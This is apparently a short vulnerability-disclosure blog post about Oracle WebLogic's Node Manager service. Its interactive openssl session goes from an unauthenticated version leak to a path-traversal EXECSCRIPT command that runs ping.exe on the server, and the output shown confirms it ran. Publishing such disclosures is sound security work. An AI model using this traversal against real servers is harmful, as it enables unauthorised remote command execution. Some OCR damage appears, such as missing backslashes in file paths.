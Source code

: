 Time for the final bug in our Week of Web Server bugs. 

It is in Vulndisco since Oct, 2008.

Oracle Weblogic has an optional Node Manager utility which is used to start/stop server instances from a remote location.

It is important to know that Node Manager is beasvc.exe process which listens on port 5556.

It supports several commands, no authentication is required to enter some of these commands, you will only need to know the name of Weblogic domain (btw in the default install Weblogic has at least 2 domains &#8211; wl_server and medrec). As beasvc.exe speaks over SSL we will use openssl utility:

character &#8216;>&#8217; marks the beginning of our command (write the command after &#8216;>&#8217; and press Enter)

$ openssl s_client -host 192.168.56.101 -port 5556

>HELLO asdf

+OK Node manager v10.3 started

Remote version leak bug here 😉

>DOMAIN xyz

-ERR I/O error while reading domain directory

>GETNMLOG

java.io.FileNotFoundException: Domain directory &#8216;C:OracleMiddlewarewlserver_10.3commonnodemanager&#8217; invalid (domain salt file not found)

at weblogic.nodemanager.server.DomainManager.initialize(DomainManager.java:79)

at weblogic.nodemanager.server.DomainMan
  
ager.(DomainManager.java:54)

at weblogic.nodemanager.server.NMServer.getDomainManager(NMServer.java:257)

at weblogic.nodemanager.server.Handler.handleDomain(Handler.java:218)

at weblogic.nodemanager.server.Handler.handleCommand(Handler.java:108)

at weblogic.nodemanager.server.Handler.run(Handler.java:70)

at java.lang.Thread.run(Thread.java:619)

>DOMAIN wl_server

+OK Current domain set to &#8216;wl_server&#8217;

**>EXECSCRIPT ../../../../../../../../Windows/System32/ping.exe**

-ERR 1

>GETNMLOG

<Jan 22, 2010 6:37:51 AM> <INFO> <>

<Jan 22, 2010 6:37:51 AM> <INFO> <>

<Jan 22, 2010 6:37:51 AM> <INFO> <Usage: ping \[-t\] \[-a\] \[-n count\] \[-l size\] \[-f\] \[-i TTL\] [-v TOS]>
